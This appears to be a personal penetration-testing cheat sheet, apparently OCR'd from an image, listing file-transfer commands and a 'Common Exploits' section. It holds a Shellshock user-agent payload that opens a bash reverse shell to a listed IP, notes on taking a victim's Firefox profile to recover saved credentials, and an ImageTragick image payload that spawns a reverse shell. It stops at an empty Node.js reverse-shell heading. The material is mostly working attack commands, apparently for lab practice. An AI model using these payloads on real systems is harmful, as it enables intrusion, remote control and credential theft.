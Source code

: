 curl http://192.168.1.2/putty.exe -o putty.exe

tftp -i 192.168.1.2 GET file.txt // need to start msf and host a files then use this get the file and put(upolad)

php -S 0.0.0.0:8080   //use to serve http to host files 
127.0.0.1:8080/file.txt   //dwonfile from browser

Send a file using netcat
nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

Receive a file using netcat
nc -nlvp 4444 > incoming.exe

# Common Exploits

## CGI-BIN exploit

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.49.233/9001 0>&1'" http://192.168.233.87/cgi-bin/test


## Exploit a firefox profile

compress .firefox then send to attacker machine after do this 

firefox --profile .firefox/b5w4643p.default-release --allow-downgrade 

check any saved cerds 

## ImageTragick

if the webserver converts png to jpg like this or file upload 

https://mukarramkhalid.com/imagemagick-imagetragick-exploit/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik

exploit

```png
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.9.172.114/80 0<&1 2>&1'
pop graphic-context
pop graphic-cont
```
upload in website and got reverse shell

## Exploiting Node.js // Revese shell

